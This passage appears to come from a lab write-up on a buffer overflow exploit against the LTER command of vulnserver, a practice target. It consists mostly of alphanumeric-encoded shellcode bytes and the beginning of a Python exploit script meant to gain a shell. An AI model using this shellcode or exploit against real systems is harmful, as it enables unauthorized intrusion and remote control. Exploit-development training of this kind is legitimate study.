```c
buf += b"\x69\x4e\x6b\x54\x74\x4e\x6b\x76\x61\x49\x46\x56\x51"
buf += b"\x69\x6f\x6c\x6c\x6a\x61\x4a\x6f\x36\x6d\x35\x51\x58"
buf += b"\x47\x65\x68\x6b\x50\x62\x55\x59\x66\x73\x33\x31\x6d"
buf += b"\x7a\x58\x75\x6b\x31\x6d\x64\x64\x52\x55\x59\x74\x62"
buf += b"\x78\x4e\x6b\x62\x78\x44\x64\x73\x31\x4a\x73\x62\x46"
buf += b"\x4c\x4b\x54\x4c\x62\x6b\x6c\x4b\x52\x78\x77\x6c\x36"
buf += b"\x61\x38\x53\x4e\x6b\x47\x74\x6e\x6b\x45\x51\x4e\x30"
buf += b"\x4c\x49\x53\x74\x71\x34\x76\x44\x61\x4b\x73\x6b\x50"
buf += b"\x61\x33\x69\x53\x6a\x30\x51\x79\x6f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x32\x7a\x6c\x4b\x72\x32\x58\x6b\x4e\x6d\x73"
buf += b"\x6d\x51\x7a\x66\x61\x4c\x4d\x4b\x35\x4f\x42\x57\x70"
buf += b"\x45\x50\x73\x30\x76\x30\x50\x68\x64\x71\x6c\x4b\x62"
buf += b"\x4f\x4e\x67\x4b\x4f\x6b\x65\x6f\x4b\x7a\x50\x78\x35"
buf += b"\x4c\x62\x71\x46\x35\x38\x6f\x56\x6d\x45\x4f\x4d\x4d"
buf += b"\x4d\x4b\x4f\x6b\x65\x65\x6c\x74\x46\x63\x4c\x67\x7a"
buf += b"\x4f\x70\x39\x6b\x6b\x50\x50\x75\x36\x65\x4f\x4b\x67"
buf += b"\x37\x45\x43\x53\x42\x30\x6f\x72\x4a\x73\x30\x31\x43"
buf += b"\x39\x6f\x79\x45\x31\x73\x53\x51\x50\x6c\x75\x33\x74"
buf += b"\x6e\x32\x45\x70\x78\x32\x45\x57\x70\x41\x41"
```

## Exploitation

Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

The exploit script for this buffer overflow via ```LTER``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat exploit.py                                                 
import socket, sys

# shellcode
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x39\x6c\x6d\x38\x6b\x32\x65\x50\x57\x70\x57\x70\x31"
buf += b"\x70\x4f\x79\x6a\x45\x76\x51\x39\x50\x63\x54\x4e\x6b"
buf += b"\x76\x30\x64\x70\x6e\x6b\x32\x72\x44\x4c\x4e\x6b\x30"
buf += b"\x52\x36\x74\x4e\x6b\x32\x52\x46\x48\x44\x4f\x78\x37"
buf += b"\x50\x4a\x35\x76\x74\x71\x69\x6f\x6e\x4c\x47\x4c\x43"
buf += b"\x51\x71\x6c\x66\x62\x56\x4c\x65\x70\x7a\x61\x7a\x6f"
buf += b"\x64\x4d\x65\x51\x39\x57\x79\x72\x4b\x42\x31\x42\x36"
buf += b"\x37\x6e\x6b\x56\x32\x56\x70\x4c\x4b\x32\x6a\x75\x6c"
buf += b"\x6c\x4b\x62\x6c\x44\x51\x30\x78\x6b\x53\x30\x48\x35"
buf += b"\x51\x4e\x31\x32\x71\x4e\x6b\x31\x49\x67\x50\x73\x31"
buf += b"\x6b\x63\x4e\x6b\x37\x39\x36\x78\x6d\x33\x77\x4a\x52"
buf += b"\x69\x4e\x6b\x54\x74\x4e\x6b\x76\x61\x49\x46\x56\x51"
buf += b"\x69\x6f\x6c\x6c\x6a\x61\x4a\x6f\x36\x6d\x35\x51\x58"
buf += b"\x47\x65\x68\x6b\x50\x62\x55\x59\x66\x73\x33\x31\x6d"
buf += b"\x7a\x58\x75\x6b\x31\x6d\x64\x64\x52\x55\x59\x74\x62"
buf += b"\x78\x4e\x6b\x62\x78\x44\x64\x73\x31\x4a\x73\x62\x46"
buf += b"\x4c\x4b\x54\x4c\x62\x6b\x6c\x4b\x52\x78\x77\x6c\x36"
buf += b"\x61\x38\x53\x4e\x6b\x47\x74\x6e\x6b\x45\x51\x4e\x30"
buf += b"\x4c\x49\x53\x74\x71\x34\x76\x44\x61\x4b\x73\x6b\x50"
buf += b"\x61\x33\x69\x53\x6a\x30\x51\x79\x6f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x32\x7a\x6c\x4b\x72\x32\x58\x6b\x4e\x6d\x73"
buf += b"\x6d\x51\x7a\x66\x61\x4c\x4d\x4b\x35\x4f\x42\x57\x70"
buf += b"\x45\x50\x73\x30\x76\x30\x50\x68\x64\x71\x6c\x4b\x62"
buf += b"\x4f\x4e\x67\x4b\x4f\x6b\x65\x6f\x4b\x7a\x50\x78\x35"
buf += b"\x4c\x62\x71\x46\x35\x38\x6f\x56\x6d\x45\x4f\x4d\x4d"
```